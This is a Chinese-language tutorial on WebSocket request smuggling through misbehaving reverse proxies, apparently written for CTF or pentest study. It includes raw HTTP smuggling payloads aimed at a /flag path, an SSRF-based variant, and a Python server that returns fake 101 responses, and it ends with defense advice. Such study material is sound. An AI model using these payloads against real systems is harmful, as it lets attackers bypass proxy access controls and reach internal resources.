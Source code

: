 ## 概述 (Overview)

WebSocket 协议允许在客户端（浏览器）和服务器之间建立一个持久的、双向的通信通道，实现了全双工通信。这与传统的 HTTP 请求-响应模式不同，后者需要客户端主动发起请求才能接收服务器信息。WebSocket 通常用于实时应用，如聊天、通知等。

请求走私的概念也可以应用于 WebSocket 的升级过程，特别是当代理服务器在处理这个升级过程时存在缺陷时。

## WebSocket 基础 (WebSocket Basics)

*   **目的 (Purpose):** 解决 HTTP 轮询带来的效率低下问题，实现服务器主动向客户端推送信息。
*   **通信方式 (Communication):** 全双工，意味着客户端和服务器可以同时发送和接收数据。
*   **连接建立 (Connection Establishment):**
    1.  **HTTP 升级请求 (HTTP Upgrade Request):** 客户端发起一个标准的 HTTP GET 请求，但包含特定的头部来请求将连接升级到 WebSocket。
        *   `Upgrade: websocket`
        *   `Connection: Upgrade`
        *   `Sec-WebSocket-Version`: 指定 WebSocket 协议版本（通常为 `13`）。
        *   `Sec-WebSocket-Key`: 一个随机生成的 Base64 编码的密钥。
    2.  **服务器响应 (Server Response):** 如果服务器支持 WebSocket 并同意升级：
        *   返回 `HTTP/1.1 101 Switching Protocols` 状态码。
        *   响应头部包含 `Upgrade: websocket` 和 `Connection: Upgrade`。
        *   `Sec-WebSocket-Accept`: 服务器根据客户端的 `Sec-WebSocket-Key` 计算得出的一个值，用于确认。
    3.  **协议切换 (Protocol Switch):** 一旦握手成功，该 TCP 连接上的通信协议就从 HTTP 切换到 WebSocket。

*   **代理行为 (Proxy Behavior):** 当 WebSocket 升级请求通过代理服务器时，许多代理（尤其是未配置为特殊处理 WebSocket 的）在连接升级后，会将后续的客户端和服务器之间的 WebSocket 流量视为不透明的二进制流进行隧道传输，不再解析其内容。

## WebSocket 请求走私 (WebSocket Request Smuggling)

核心思想是欺骗代理服务器，使其认为 WebSocket 连接已经成功升级并开始隧道传输后续流量，而实际上后端服务器并未完成升级，仍在期望 HTTP 流量。

### 利用场景1: 代理不检查升级响应 (Proxy Doesn't Check Upgrade Response)

*   **原理:** 某些代理服务器在转发 WebSocket 升级请求后，可能不会检查后端服务器的响应状态码（例如，是 `101` 还是 `426 Upgrade Required`），而是盲目地假设升级成功，并开始隧道化后续通信。
*   **攻击方法:**
    1.  **构造恶意升级请求:** 客户端发送一个 WebSocket 升级请求，但故意使用一个后端服务器不支持的 `Sec-WebSocket-Version` (例如 `777`)。
    2.  **代理转发:** 代理将此请求转发给后端。
    3.  **后端拒绝升级:** 后端服务器因版本不匹配，会响应一个错误状态码，如 `426 Upgrade Required`，并指示其支持的版本。连接**并未**升级到 WebSocket，后端仍然期望 HTTP。
    4.  **代理错误判断:** 存在漏洞的代理忽略了后端的 `426` 响应，错误地认为升级已成功，并开始将后续来自客户端的数据作为 WebSocket 流量直接隧道传输到后端。
    5.  **走私HTTP请求:** 攻击者在恶意升级请求之后，紧接着发送一个标准的 HTTP 请求。由于代理认为这是 WebSocket 流量，它会原封不动地将这个 HTTP 请求转发给仍在等待 HTTP 请求的后端服务器。
*   **后果:** 攻击者可以通过这个“损坏的” WebSocket 隧道向后端发送任意 HTTP 请求，常用于绕过代理层面的访问控制。这种技术通常只影响攻击者自己的连接（请求隧道），不直接影响其他用户。
*   **示例 Payload (攻击者发送):**
    ```
    GET /socket HTTP/1.1  # 假设 /socket 是一个正常的WebSocket端点
    Host: <target_ip>:<port>
    Sec-WebSocket-Version: 777 # 无效版本，导致后端拒绝升级
    Upgrade: WebSocket
    Connection: Upgrade
    Sec-WebSocket-Key: <random_key>

    GET /flag HTTP/1.1         # 被走私的HTTP请求
    Host: <target_ip>:<port>
    ```
*   **后端响应 (给代理):**
    ```
    HTTP/1.1 426 Upgrade Required
    Sec-WebSocket-Version: 7, 8, 13
    ...
    ```
*   **代理行为:** 忽略 `426`，开始隧道模式。
*   **后端接收 (通过隧道):** `GET /flag HTTP/1.1 ...`
*   **即使没有 WebSocket 端点:** 有些代理甚至不需要目标路径 (`/`) 实际支持 WebSocket。只要升级请求的头部看起来像 WebSocket 升级，代理就可能被欺骗。

### 利用场景2: 代理检查升级响应，但可被欺骗 (Proxy Checks Response, but Can Be Tricked)

*   **原理:** 当代理会检查后端响应是否为 `101 Switching Protocols` 才进行隧道化时，攻击者需要找到一种方法让后端服务器对一个非 WebSocket 升级的请求返回一个伪造的 `101` 响应。
*   **攻击方法 (结合 SSRF):**
    1.  **发现SSRF漏洞:** 目标应用存在服务器端请求伪造 (SSRF) 漏洞，允许攻击者控制后端服务器向任意 URL 发起请求，并可能影响其响应。
    2.  **设置恶意服务器:** 攻击者搭建一个 Web 服务器，该服务器对所有接收到的请求都固定响应 `HTTP/1.1 101 Switching Protocols`。
    3.  **构造SSRF触发的升级请求:**
        *   攻击者向目标应用的 SSRF 端点 (例如 `/check-url?server=<attacker_controlled_url>`) 发送一个请求。
        *   这个请求本身也包含 WebSocket 升级头部 (`Upgrade: websocket`, `Connection: Upgrade`, `Sec-WebSocket-Version: 13`, `Sec-WebSocket-Key: ...`)。
    4.  **代理转发与SSRF触发:**
        *   代理将这个包含升级头部的请求转发给目标应用的 SSRF 端点。
        *   目标应用后端通过 SSRF 漏洞向攻击者控制的恶意服务器发起请求。
    5.  **恶意服务器返回假101:** 攻击者的恶意服务器响应 `101 Switching Protocols`。这个 `101` 响应会作为 SSRF 端点对原始升级请求的响应返回给代理。
    6.  **代理被欺骗:** 代理看到来自后端（实际上是 SSRF 端点间接返回的）的 `101` 响应，认为 WebSocket 升级成功，开始隧道化后续流量。
    7.  **走私HTTP请求:** 攻击者在最初的 SSRF 触发请求之后，紧接着发送一个标准的 HTTP 请求，该请求将被代理通过隧道转发给后端。
*   **示例 Payload (攻击者发送):**
    ```
    GET /check-url?server=http://<attacker_ip>:<attacker_port> HTTP/1.1 # SSRF端点
    Host: <target_ip>:<proxy_port>
    Sec-WebSocket-Version: 13
    Upgrade: WebSocket
    Connection: Upgrade
    Sec-WebSocket-Key: <random_key>

    GET /flag HTTP/1.1         # 被走私的HTTP请求
    Host: <target_ip>:<proxy_port>
    ```
*   **攻击者恶意服务器 (python 示例):**
    ```python
    from http.server import HTTPServer, BaseHTTPRequestHandler
    import sys

    class FakeUpgrade(BaseHTTPRequestHandler):
       def do_GET(self):
           self.protocol_version = "HTTP/1.1"
           self.send_response(101) # 伪造101响应
           self.end_headers()

    if __name__ == '__main__':
        if len(sys.argv) != 2:
            print(f"Usage: {sys.argv[0]} <port>")
            sys.exit(1)
        port = int(sys.argv[1])
        httpd = HTTPServer(("", port), FakeUpgrade)
        print(f"Starting fake 101 server on port {port}...")
        httpd.serve_forever()
    ```

## 工具与技巧 (Tools & Tips)

*   **Burp Suite Repeater:**
    *   可用于手动构造和发送 WebSocket 请求走私的 payload。
    *   **重要:** 确保禁用 "Update Content-Length" 设置，以防止 Burp 自动修改精心构造的请求体。
    *   注意 Payload 末尾需要有正确的 CRLF 序列 (通常是两个 `\r\n` 分隔主请求和走私请求)。
*   **`nc` (netcat):** 对于某些代理或 Burp Suite 可能干扰的场景，直接使用 `nc` 发送原始 HTTP 请求可能更可靠。
*   **Payload 结构:** 走私的 HTTP 请求通常紧跟在伪造的升级请求（或其头部）之后，中间用一个空行 (`\r\n\r\n`) 分隔，就如同两个连续的 HTTP/1.1 请求。

## 防御策略 (Defense Strategies)

1.  **代理正确处理升级:** 代理服务器应严格遵守 WebSocket 协议规范：
    *   验证 `Sec-WebSocket-Version`。
    *   仅在收到后端明确的 `101 Switching Protocols` 响应（并验证 `Sec-WebSocket-Accept`）后才切换到隧道模式。
    *   如果升级失败（如收到 `426` 或其他错误码），则不应建立隧道，并应正确处理后续数据为 HTTP。
2.  **最小化代理信任:** 不要假设代理会完美处理所有边缘情况。后端应用也应有自身的安全机制。
3.  **SSRF 防护:** 严格限制服务器发出的网络请求，防止攻击者利用 SSRF 漏洞控制服务器响应或访问内部资源。
4.  **WAF/IDS 规则:** 配置 Web 应用防火墙或入侵检测系统以识别异常的 WebSocket 升级尝试或已知的走私模式。
5.  **软件更新:** 保持代理服务器、Web 服务器和应用程序框架的更新，以修复已知的漏洞。